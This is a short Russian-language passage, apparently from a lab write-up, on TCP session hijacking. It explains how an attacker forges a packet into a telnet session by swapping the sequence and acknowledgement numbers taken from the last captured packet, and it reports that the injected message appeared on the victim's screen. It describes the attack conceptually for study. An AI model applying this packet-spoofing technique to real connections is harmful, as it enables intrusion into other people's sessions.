Для того, чтобы сэмулировать отправку сообщения от сервера (хост А) клиенту (хост B), мы определяем последний TCP-пакет, отправленный от хоста B к хосту A и извлекаем из него поля **sequence number** и **ack**.
В ответном пакете от хоста А к хосту B эти значения фактически заменяются местами:

```python
[next] ack = seq
[next] seq = ack
```

Формально, **ack** в сформированном злоумышленником пакете должен быть равен **seq** + **TCP Segment length** пердыдущего пакета (т.е. длина передаваемых данных в предыдущем пакете), но **TCP Segment length** этого пакета имеет нулевую длину, поэтому просто **ack = seq**

В результате, выполнив скрипт на машине злоумышленника, в telnet-сессии хоста B отобразилось передаваемое в пакете сообщение


